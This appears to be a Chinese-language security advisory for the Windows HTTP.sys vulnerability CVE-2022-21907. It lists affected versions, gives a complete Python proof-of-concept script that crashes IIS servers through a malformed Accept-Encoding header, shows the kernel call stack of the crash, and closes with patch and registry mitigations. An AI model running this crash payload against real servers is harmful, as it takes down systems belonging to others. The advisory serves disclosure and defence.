

# **HTTP协议栈远程代码执行漏洞（CVE-2022-21907）**

`https://github.com/p0dalirius/CVE-2022-21907-http.sys`



## 漏洞概述

未经身份验证的攻击者通过向Web服务器发送特制的HTTP数据包，从而在目标系统上执行任意代码。该漏洞被微软提示为“可蠕虫化”，无需用户交互便可通过网络进行自我传播，CVSS评分为9.8。目前已发现可造成目标主机蓝屏崩溃的漏洞利用出现，请相关用户尽快采取措施进行防护。

Windows HTTP 协议栈（HTTP.sys）是Windows操作系统中处理HTTP请求的内核驱动程序，常见于Web浏览器与 Web 服务器之间的通信，以及Internet Information Services (IIS)中。

## 风险等级

高危

## 易受攻击的系统

**「受影响版本」**

```
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 21H2 for ARM64-based Systems
Windows 10 Version 21H2 for 32-bit Systems
Windows 11 for ARM64-based Systems
Windows 11 for x64-based Systems
Windows Server, version 20H2 (Server Core Installation)
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for x64-based Systems
Windows 10 Version 21H2 for x64-based Systems
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
```

**「不受影响版本」**

```
Windows 10 version 1909
Windows Server 2019（默认配置不受影响）
Windows 10 version 1809（默认配置不受影响）
```

## 漏洞利用

**「POC」**

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# File name          : CVE-2022-21907_http.sys_crash.py
# Author             : Podalirius (@podalirius_)
# Date created       : 13 Jan 2022

import argparse
import datetime
import requests
import time
import threading


def parseArgs():
    parser = argparse.ArgumentParser(description="Description message")
    parser.add_argument("-t", "--target", default=None, required=True, help='Target IIS Server.')
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help='Verbose mode. (default: False)')
    return parser.parse_args()


def monitor_thread(target, dtime=5):
    print('[>] Started monitoring of target server for the next %d seconds.' % dtime)
    for k in range(dtime):
        try:
            r = requests.get(target, timeout=1)
        except (requests.exceptions.ReadTimeout, requests.exceptions.ConnectTimeout) as e:
            print("   [%s] \x1b[1;91mTarget is down!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
        else:
            print("   [%s] \x1b[1;92mTarget is reachable!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
            time.sleep(1)


if __name__ == '__main__':
    options = parseArgs()

    if not options.target.startswith('http://') and not options.target.startswith('https://'):
        target = "http://" + options.target
    else:
        target = options.target

    payload = 'AAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&AA&**AAAAAAAAAAAAAAAAAAAA**A,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAA,****************************AAAAAA, *, ,'

    # Starting monitoring thread
    t = threading.Thread(target=monitor_thread, args=(target,))
    t.start()
    time.sleep(2)

    # Sending payload
    print("   [+] Sending payload ...")
    try:
        r = requests.get(target, headers={"Accept-Encoding": payload}, timeout=15)
    except (requests.exceptions.ReadTimeout, requests.exceptions.ConnectTimeout) as e:
        t.join()
        print("[%s] \x1b[1;91mTarget successfully crashed!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))

    # Cleanup
    t.join()
```

**「利用过程」**

```
$ ./CVE-2022-21907_http.sys_crash.py -h
usage: CVE-2022-21907_http.sys_crash.py [-h] -t TARGET [-v]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IIS Server.
  -v, --verbose         Verbose mode. (default: False)
```


函数调用

```
 ───> nt!KiStartSystemThread+0x28
 │    ├──> nt!PspSystemThreadStartup+0x55
 │    │    ├──> HTTP!UlpThreadPoolWorker+0x112
 │    │    │    ├──> HTTP!UlpHandleRequest+0x1aa
 │    │    │    │    ├──> HTTP!UlpParseNextRequest+0x1ff
 │    │    │    │    │    ├──> HTTP!UlParseHttp+0xac7
 │    │    │    │    │    │    ├──> HTTP!UlParseHeader+0x218
 │    │    │    │    │    │    │    ├──> HTTP!UlAcceptEncodingHeaderHandler+0x51
 │    │    │    │    │    │    │    │    ├──> HTTP!UlpParseAcceptEncoding+0x298f5
 │    │    │    │    │    │    │    │    │    ├──> HTTP!UlFreeUnknownCodingList+0x63
 │    │    │    │    │    │    │    │    │    │    ├──> nt!KiRaiseSecurityCheckFailure+0x323
 │    │    │    │    │    │    │    │    │    │    │    ├──> nt!KiFastFailDispatch+0xd0
 │    │    │    │    │    │    │    │    │    │    │    │    ├──> nt!KiBugCheckDispatch+0x69
 │    │    │    │    │    │    │    │    │    │    │    │    │    └──> nt!KeBugCheckEx
```

## 漏洞防护

### 补丁更新

> ❝
>
> 目前微软官方已针对受支持的产品版本发布了修复以上漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接：
>
> https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907
>
> 注：由于网络问题、计算机环境问题等原因，Windows Update的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。
>
> 右键点击Windows图标，选择“设置(N)”，选择“更新和安全”-“Windows更新”，查看该页面上的提示信息，也可点击“查看更新历史记录”查看历史更新情况。
>
> 针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到“Microsoft更新目录”网站下载独立程序包并安装。
>
> ❞

### 临时防护措施

> ❝
>
> 若使用Windows Server 2019和Windows 10 version 1809版本的用户暂时无法安装补丁，可使用下列措施进行临时缓解：
>
> 在DWORD注册表中删除“EnableTrailerSupport”可防护此漏洞的攻击，“EnableTrailerSupport”的路径为：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\HTTP\Parameters
>
> 注：当用户通过EnableTrailerSupport注册表值启用了HTTP Trailer Support时，以上版本才受该漏洞影响，默认配置时不受该漏洞影响。
>
> ❞